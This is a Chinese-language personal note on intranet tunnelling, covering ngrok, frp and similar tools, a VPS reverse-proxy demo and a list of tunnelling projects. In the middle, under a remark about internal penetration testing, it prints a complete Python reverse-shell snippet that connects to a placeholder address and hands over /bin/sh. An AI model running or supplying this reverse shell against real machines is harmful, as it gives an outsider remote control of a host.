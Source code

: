 ```yaml
---
title: 内网穿透 ngrok
date: 2019-02-21
private:
---
```

# 内网穿透
都是通过公网做转接: https://zhuanlan.zhihu.com/p/28820926

- ngrok
    流量重放
    ./ngrok -config=ngrok.cfg -subdomain <domain> 80
    ./ngrok -config=ngrok.cfg -hostname xxx.xxx.xxx 80
- frp 支持 tcp, udp, http, https 协议, 高性能
- 用反向隧道的ssh
- lanproxy: 支持tcp流量转发
- natapp: 基于ngrok, 比花生壳好用

# ngrok
参考：https://zhuanlan.zhihu.com/p/28820926 /py-demo/socket/proxy-reverse-server.py
1. 假设我们需要共享的 web 是 python 的 simple http_server， 首先执行 python -m SimpleHTTPServer, 这样本地会绑定 8000 端口
2. 在自己的 vps 上运行 python3 reverse_server.py
3. 在本地运行 python3 reverse_client_proxy.py
3. 接下来我们直接在外网访问 vps 的地址: http://xx.xx.xx.xx:8000 就可以发现能够转发内网的数据了

流程图：

    vps:8000 --> vps:2333 -> server:xx-> server:8000

内网穿透可以用于做内网渗透测试， 内网执行最基本的 python 反弹 shell 脚本：

    import socket,subprocess,os
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(("x.x.x.x",2333))
    os.dup2(s.fileno(),0)
    os.dup2(s.fileno(),1)
    os.dup2(s.fileno(),2)
    p=subprocess.call(["/bin/sh","-i"]);

# 工具
作者：予墨白 链接：https://www.zhihu.com/question/49629610/answer/190228044

GO实现的：
- longXboy/lunnel  这个功能挺多的看介绍跟frp差不多了
- mirrors/dog-tunnel 这个看起来似乎更多使用

javascript实现的：
- localtunnel/localtunnel  这个就不上档次了，貌似只支持http协议的隧道；不过star数可不比上面两个差；

python实现：
- hauntek/python-ngrokd  见名知义， python版本的ngrok；协议都是一样的

C语言版：
- dosgo/ngrok-c

php实现的；也是予墨白近期的一个作品；
- slince/spike；基于reactphp的io多路复用模型，类似于nodejs的执行方式；简单测评并没有比go语言实现的差太多；
